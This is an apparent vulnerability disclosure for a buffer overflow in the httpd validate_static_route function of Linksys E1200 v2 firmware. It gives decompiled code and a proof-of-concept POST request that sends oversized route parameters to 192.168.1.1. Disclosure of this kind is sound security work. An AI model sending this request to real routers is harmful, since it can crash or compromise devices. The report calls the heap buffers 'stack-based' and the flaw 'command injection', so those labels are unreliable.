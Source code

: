 # Buffer Overflow Vulnerability in `route_ipaddr`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | Linksys E1200 v2 Router                                      |
| Firmware Version     | **E1200_v2.0.11.001_us.tar.gz**                              |
| Vulnerability Type   | **Stack-Based Buffer Overflow**                              |
| Vulnerable Component | `httpd` (function `validate_static_route`, buffers `v6`, `v10`, `v14`) |
| Prerequisites        | No authentication required; remote exploitation possible via CGI parameters (`route_ipaddr_0~3`, `route_netmask_0~3`, `route_gateway_0~3`) |

2. Exploitation Path

```c
void __fastcall validate_static_route(int a1, int a2, _DWORD *a3)
{
  ...
  v5 = malloc(0x14u);
  v6 = v5;
  if ( v5 )
  {
    *v5 = 0;
    for ( i = 0; i != 4; ++i )
    {
      snprintf(v85, 0x1Eu, "%s_%d", "route_ipaddr", i);
      v8 = (const char *)get_cgi((int)v85);
      if ( !v8 )
      {
        free(v6);
        return;
      }
      strcat(v6, v8);
      ...
    v9 = (char *)malloc(0x14u);
    v10 = v9;
    ...
    for ( j = 0; j != 4; ++j )
    {
      snprintf(v85, 0x1Eu, "%s_%d", "route_netmask", j);
      v12 = (const char *)get_cgi((int)v85);
      if ( !v12 )
        goto LABEL_43;
      strcat(v10, v12);
      ...
    v13 = (char *)malloc(0x14u);
    v14 = v13;
    ...
      for ( k = 0; k != 4; ++k )
      {
        snprintf(v85, 0x1Eu, "%s_%d", "route_gateway", k);
        v16 = (const char *)get_cgi((int)v85);
        if ( !v16 )
          goto LABEL_44;
        strcat(v14, v16);
        ...
}
```

3. **Vulnerable Binaries:** `httpd`.
4. 0-Day Command Injection Exploitation Path:
   - In the `httpd` file, at line 12, `v8 = (const char *)get_cgi((int)v85)` receives data via `get_cgi` without any length restriction. A loop of 4 iterations performs string concatenation at line 18 with `strcat(v6, v8)`, where the buffer `v6` is only 20 bytes in size. An attacker can send specially crafted CGI parameters, resulting in a buffer overflow vulnerability.
   - In the `httpd` file, at line 26, `v12 = (const char *)get_cgi((int)v85)` receives data via `get_cgi` without any length restriction. A loop of 4 iterations performs string concatenation at line 29 with `strcat(v10, v12)`, where the buffer `v10` is only 20 bytes in size. An attacker can send specially crafted CGI parameters, resulting in a buffer overflow vulnerability.
   - In the `httpd` file, at line 37, `v16 = (const char *)get_cgi((int)v85)` receives data via `get_cgi` without any length restriction. A loop of 4 iterations performs string concatenation at line 40 with `strcat(v14, v16)`, where the buffer `v14` is only 20 bytes in size. An attacker can send specially crafted CGI parameters, resulting in a buffer overflow vulnerability.
5. Proof of Concept (PoC) for Reproducing the Vulnerability

```http
POST /cgi-bin/validate_static_route HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 500

route_ipaddr_0=AAAAAAAAAAAAAAAAAAAAA&route_ipaddr_1=BBBBBBBBBBBBBBBBBBB&route_ipaddr_2=CCCCCCCCCCCCCCCCCCC&route_ipaddr_3=DDDDDDDDDDDDDDDDDDD&
route_netmask_0=EEEEEEEEEEEEEEEEEEE&route_netmask_1=FFFFFFFFFFFFFFFFFFF&route_netmask_2=GGGGGGGGGGGGGGGGGGG&route_netmask_3=HHHHHHHHHHHHHHHHHHH&
route_gateway_0=IIIIIIIIIIIIIIIIIII&route_gateway_1=JJJJJJJJJJJJJJJJJJJ&route_gateway_2=KKKKKKKKKKKKKKKKKKK&route_gateway_3=LLLLLLLLLLLLLLLLLLL
```